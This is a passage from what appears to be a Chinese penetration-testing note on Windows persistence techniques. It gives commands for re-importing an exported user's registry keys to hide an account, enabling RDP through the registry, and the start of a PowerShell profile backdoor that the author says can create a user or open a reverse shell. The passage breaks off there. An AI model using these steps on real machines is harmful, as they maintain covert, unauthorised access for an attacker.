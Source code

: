    

3. 把3E8和cjc导出来 

   ![image-20230903222101091](../资源文件/图片/image-20230903222101091.png)

4. 删除用户

   ```
   net user cjc /del				//删除用户
   ```

   


5. 双击导出来的两个注册表进行导入

6. 开远控

   ```
   REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
   ```

7. RDP连接成功

### Powershell后门

Powershell配置文件其实就是一个powershell脚本，他可以在每次运行powershell的时候自动运行，所以可以通过向该文件写入自定义的语句用来长期维持权限

1. 查看当前是否存在配置文件

```
echo $profile
Test-path $profile
```

1. 如果返回false则需要创建一个 `New-Item -Path $profile -Type File –Force`
2. 然后写入命令，这里我以创建一个用户为目标，也可以写成反弹shell的
